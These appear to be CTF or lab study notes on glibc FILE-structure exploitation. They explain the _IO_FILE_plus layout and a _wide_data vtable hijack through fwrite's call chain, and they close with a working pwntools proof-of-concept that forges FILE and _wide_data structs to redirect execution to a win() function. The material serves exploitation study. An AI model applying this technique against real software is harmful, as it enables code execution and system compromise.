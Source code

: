 
- `stdin` = `0`
- `stdout` = `1`
- `stderr` = `2`
### Read into the authenticated variable
```python
fp = FileStructure()
payload = fp.read(elf.sym.authenticated, 0x200)
```

#### Write from the authenticated variable
```python
fp = FileStructure()
payload = fp.write(elf.sym.authenticated, 0x200)
```


#### `_IO_FILE_plus` struct
```
struct _IO_FILE_plus
    +0x0000 file                 : FILE
    +0x00d8 vtable               : const struct _IO_jump_t *
```




#### Creating a fake `_wide_data` struct to hijack control of the virtual function table of a `FILE` struct

##### Prerequisits
###### `_lock` field in `_IO_FILE` (Works like a mutex)
The `_lock` pointer is used for threaded file access.
An exploit MUST set `_lock` to point to a:
- Writable location
- With value NULL
##### Overview
- Set `_IO_FILE._wide_data->_wide_vtable` to point to `exploit_vtable` 
- Overwrite `_IO_FILE.vtable` such that `_IO_wfile_overflow()` gets called from inside the `fwrite()` function
	- `_IO_wfile_overflow()` calls the `_IO_wdoallocbuf()` function
		- `_IO_wdoallocbuf()` calls into the `_IO_FILE.wide_data->_wide_vtable` without any checks!

##### Inside `fwrite(buf, 1, 0x100, fp)`
`fwrite()` has the instruction `call   qword ptr [r15 + 0x38]`
`r15` is the `vtable` field in `_IO_FILE_plus` struct in the `fp` argument to `fwrite`
`[r15 + 0x38]` should be `_IO_wfile_overflow` 

##### Inside `_IO_wfile_overflow(fp)`
`call   _IO_wdoallocbuf` calls the `_IO_wdoallocbuf` function with the argument `fp`

##### Inside `_IO_wdoallocbuf(fp)`
`mov    rax, qword ptr [rdi + 0xa0]` places the `_wide_data` field into `rax` (`rdi` is the `fp`)
`mov    rax, qword ptr [rax + 0xe0]` places the `_wide_vtable` from the `_IO_wide_data` struct into `rax` (This is a `_IO_jump_t` struct)
`call   qword ptr [rax + 0x68]` Calls the function pointer at the offset `0x68` in the `_IO_jump_t` struct. This is the `__doallocate` field. Here should `win()` be placed.

##### Exploit script POC
```python
io.recvuntil(b"Please enter your name.\n")
payload = flat(
    p8(0)*0x68, # padding for the _IO_jump_t struct that calls the win function
    p64(elf.sym.win),
    p8(0)*(0xe0-(0x68+8)), # more padding to overwrite the vtable field in the _wide_data struct
    name_buffer
)
io.sendline(payload)

fp = FileStructure()
fp._lock = name_buffer - 0x30 # a writable and NULL address
fp._wide_data = name_buffer # where the fake _wide_data struct is located
fp.vtable = libc.sym._IO_wfile_jumps_maybe_mmap+24-0x38 # when fwrite() is called it jumps to r15+0x38 which we would like to be _IO_wfile_overflow

io.recvuntil(b"Now reading from stdin directly to the FILE struct.\n\n")
io.send(bytes(fp))
```